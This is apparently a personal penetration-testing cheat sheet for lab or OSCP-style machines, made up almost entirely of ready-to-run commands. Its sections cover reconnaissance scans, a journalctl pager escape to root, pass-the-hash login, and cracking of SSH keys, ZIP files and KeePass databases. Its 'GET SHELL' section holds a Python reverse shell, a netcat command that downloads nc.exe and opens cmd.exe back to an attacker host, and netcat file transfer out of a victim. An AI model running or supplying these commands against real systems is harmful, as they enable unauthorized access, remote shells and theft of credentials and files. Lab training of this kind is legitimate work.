 # RECON
## Initial Nmap Scan
```bash
ip="10.10.10.5"
nmap -Pn -sC -sV -oA nmap $ip
```

## Enumeration Checklists
https://github.com/theonlykernel/enumeration/wiki  
https://medium.com/oscp-cheatsheet/oscp-cheatsheet-6c80b9fa8d7e  

## WPscan for wordpress
```bash
wpscan --disable-tls-checks --url $url
```

## Samba
```bash
auxiliary/scanner/smb/smb_version
nmblookup -A $ip
smbclient -L $ip
```

## dirbuster
wordlist: /usr/share/wordlists/dirb/common.txt  
URL to fuzz (find file in unknown folder)  
/{dir}/phpbash.min.php  

## Gobuster HTTP Enumeration
```bash
./gobuster dir -u $url -w /usr/share/wordlists/dirb/common.txt
```
## FTP
```bash
nmap -sV -Pn -vv -p 21 --script=ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221 $ip
```


# GENERAL
## Kali Configuration
```bash
## set keyboard layout
setxkbmap -layout de
# set timezone
sudo dpkg-reconfigure tzdata
```

## Find without errors
```bash
find / -name test.py 2>/dev/null
```

## Save all Terminal Output to File
https://unix.stackexchange.com/questions/200637/save-all-the-terminal-output-to-a-file
```bash
# Convert RAW Output to TXT
cat $SCRIPT_LOG_FILE | perl -pe 's/\e([^\[\]]|\[.*?[a-zA-Z]|\].*?\a)//g' | col -b > $txtfile
```

## NTFS Alternate Datastream
```bash
# show alternate datastreams
dir /R

# output alternate datastreams
powershell Get-Content -Path "hm.txt" -Stream "root.txt"
```
# PRIVESC
## LinEnum.sh
https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

## GTFOBIns
https://gtfobins.github.io/ 

## journalctl
```bash
# size termain windows very small
usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
!/bin/sh
# whoami
root
```

## Pass-the-Hash spawn CMD
```bash
pth-winexe -U$domain/$username%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 //$ip cmd
```

# GET SHELL
## Netcat Windows
```bash
powershell wget "http://[KALI-IP]/windows-resources/binaries/nc.exe" -outfile nc.exe
nc.exe -e cmd.exe [KALI-IP] 1234

#on Kali listen with
nc -nvlp 1234
```

## Transfer Files
```bash
# listen on kali with
nc -lp 1235 > [FILENAME]

# transfer file on victim
nc.exe -w 3 [KALI-IP] 1235 <[FILENAME]
```

## Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.29",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' 
```
```bash
# make shell better
python -c 'import pty; pty.spawn("/bin/bash");' 
#on Kali listen with
nc -nvlp 1234
```
# Password Cracking
## John
```bash
john --wordlist=/home/mallab/Downloads/rockyou.txt htpasswd.txt 
```

## SSH Private Key / id_rsa
```bash
python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
sudo john --wordlist=rockyou.txt id_rsa.hash
```

## ZIP Archive
```bash
/usr/sbin/zip2john avedb.zip > avedb.zip.hashes
sudo john --wordlist=rockyou.txt avedb.zip.hashes
```

## KDBX Keepassa
```bash
sudo keepass2john jeeves.kdbx > jeeves.hash
```
